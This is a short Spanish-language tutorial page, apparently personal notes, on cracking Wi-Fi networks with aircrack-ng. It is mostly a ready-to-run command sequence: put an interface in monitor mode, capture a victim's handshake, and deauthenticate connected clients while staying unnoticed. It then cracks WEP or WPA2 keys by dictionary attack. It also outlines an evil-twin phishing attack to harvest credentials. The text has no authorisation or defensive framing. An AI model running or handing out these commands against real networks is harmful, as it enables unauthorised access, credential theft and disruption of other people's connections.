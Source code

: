 Existen 2 tipos de ataques para hacer con aircrack-ng:

1. El primer ataque consiste en capturar el handshake de la víctima para poder hacer fuerza bruta y obtener la clave.
2. El segundo ataque consiste en desautenticar al usuario de la wifi para que se conecte a la nuestra, de esta forma le enviamos un formulario de registro para que nos de las credenciales (fishing).

Primer ataque

Nota1: Si una victima se autentica con la clave podemos cojer el handshake. Si la victima ya está autenticada y se une a la wifi, no siempre obtendremos el handshake. Para este segundo caso usaremos las inyecciones ARP.

Nota2: En el paso del airodump puede tardar demasiado en capturar una trama porque dependemos de cuando un cliente se conecta a la wifi, se explica arriba que no siempre se garantiza obtener el handshake. Para ello podemos desautenticar a todos los usuarios que se encuentran ahora mismo conectados con el siguiente comando, aveces se vuelen a connectar solos por lo que podemos pasar desapercibidos:
````
[root@kalilinux ~ ]# aireplay-ng --deauth <NÚMERO_PAQUETES (2-10)> -a <MAC_DE_ACCESS_POINT> -c <MAC_DE_CLIENTE> <INTERFAZ>
````
--
````
[root@kalilinux ~ ]# iwconfig
[root@kalilinux ~ ]# airmon-ng check kill
[root@kalilinux ~ ]# airmon-ng start <interfaz_wifi> <1-12 (canal_donde_se_desea_operar)>
[root@kalilinux ~ ]# airodump-ng <interfaz_wifi>
[root@kalilinux ~ ]# airodump-ng -w <output> --channel <canal> --bssid <bssid> <interfaz_wifi>

En otra terminal, en caso de querer desconectar a los clientes conectados a la red:
[root@kalilinux ~ ]# aireplay-ng --deauth 2 -a <MAC_DE_ACCESS_POINT> -c <MAC_DE_CLIENTE> <INTERFAZ>

Si la clave es WEP:
[root@kalilinux ~ ]# aircrack-ng -b <SSID_AP> <output*.cap>

Si la clave es WPA2:
aircrack-ng -a 2 -b <SSID_AP> -w <diccionario> <output*.cap>
````